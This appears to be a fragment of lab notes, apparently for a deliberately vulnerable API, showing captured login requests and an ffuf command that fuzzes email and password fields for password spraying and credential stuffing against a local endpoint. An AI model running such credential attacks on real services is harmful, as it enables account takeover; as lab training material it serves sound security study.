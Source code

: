   ```
  Origin: http://127.0.0.1:8888
  Content-Length: 56
  Connection: close
  Cookie: XSRF-TOKEN=eyJpdiI6InEyblBFN3dGYjhvN2lhdGNFTmNtMWc9PSIsInZhbHVlIjoiNGkyTzdWNmJXYm1zdHFvbzVMZmJtY292UjcyalNPcjFFOHBwM3JxZW1CQTlLUndQMlpqandOdFpwcms1N3BFOHhISzRMRVRueno2alkvanVLRGxLM0Q5Sk5PQUFyNk1aOG1BZVkrR3ZXSEloQXpFam1IbDYrVXZGNjBGcS95WEkiLCJtYWMiOiI1ZjE5YzVjMzllZWZlMzQ2NWRmOGFiMDcyNGJlMTkxZDUwNjVmZWE1ZDBlMmYzZTA1OGU3NTUzNGM5ZTJkMTc2IiwidGFnIjoiIn0%3D; laravel_session=eyJpdiI6IlYwWlRvOEdzVW5jK0dqcTlPY2ZtckE9PSIsInZhbHVlIjoiQkhTeHNLWVJldEQ0d1NiKzRUSWZ6MmJUYlB4OXJjSFBmVWhTWk5JSkI2dEpqaThWRC9jcHpKekJwODZkVGNWRnJJOG1Dcmk4WEthRUl3U1o5RHhIY0daZ0czenZ0VEFpc1FyWTdsT29vek1yZWsxeitUeFFzUHp2RXZkOUhFQXQiLCJtYWMiOiIxODlkMzdjNzg1Yzc2Mzc1NjE4OTY4MzY2YWVkYzNiYjNjZTM0ZGFkZmI4ZjQ1N2VhYTVkYjhmZjRiNThlZTJhIiwidGFnIjoiIn0%3D
  Sec-Fetch-Dest: empty
  Sec-Fetch-Mode: cors
  Sec-Fetch-Site: same-origin

  {"email":"thiago123@teste.com","password":"FUZZ"}
  ```
  * Password Spray
  * Credential Stuffing
  ```
  Burp Pro Alternative - FFUF Example

  Command:
  ffuf -request req.txt -w user:FUZZ1 -w pass:FUZZ2 -request-proto http -mode pitchfork -x http://127.0.0.1:8080 -fc 401

  Request:

  POST /vapi/api2/user/login HTTP/1.1
  Host: 127.0.0.1
  User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
  Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
  Accept-Language: en-US,en;q=0.5
  Accept-Encoding: gzip, deflate
  Connection: close
  Content-Type: application/json
  Cookie: XSRF-TOKEN=eyJpdiI6InBOK2d4a0g5ck45Z0xDN0FGa2FYVFE9PSIsInZhbHVlIjoibXBydmpxMmFNTFRGSTlEb2tFVVpINnNpbm5MbjJWTGtIRG5YYm1OdjlpM0R2ZFlzZHZTbTRKZVRaaWVpNUZod3dXNzROT3ZVQ3BOcnRsN21HQXF5bzNuM0xWcjlwbGc0aEhQcGxRL3FUSnpZNFB5TmM3VDdOVW4yb093MTZ1S3MiLCJtYWMiOiJhODFjMWIzZmE3OGFjNTJmODA3NjViMjZmMDdmM2NlMjlmOGFlYzM3MDEwNTBlMzA5ODc5MTM4OTJkNDNhZDM3IiwidGFnIjoiIn0%3D; laravel_session=eyJpdiI6InB3dDBwZW5mb1FXN0dXalBDTkdpMnc9PSIsInZhbHVlIjoiRk05dGx5cTlORVlXUU9yVGxXWnMvaXRXVXluUmRwUjlFQUFld3RVcE9COUxiUVdTUHVPcStMYTg2S1JWaUpscUk5N3dwQXFDZ242UGtyOWNrMHVrUXYrdDFrYmg5ZE9oc1l6MHlQSjIxcFdSeUFVbXpHWGkwQ0djZWNHQ0RVa0wiLCJtYWMiOiI3ZjMzYTJjYjgzYWI0OTY1ZjRhYTI2N2I1YzYxYTQyNjcwMmVmNTU2MGJiY2M0NjEwZTBlZmU2ZDM2NjBmNWY2IiwidGFnIjoiIn0%3D
  Upgrade-Insecure-Requests: 1
  Sec-Fetch-Dest: document
  Sec-Fetch-Mode: navigate
  Sec-Fetch-Site: none
  Sec-Fetch-User: ?1
  Content-Length: 38

  {
    "email": "FUZZ1",
    "password": "FUZZ2"
  }
  ```

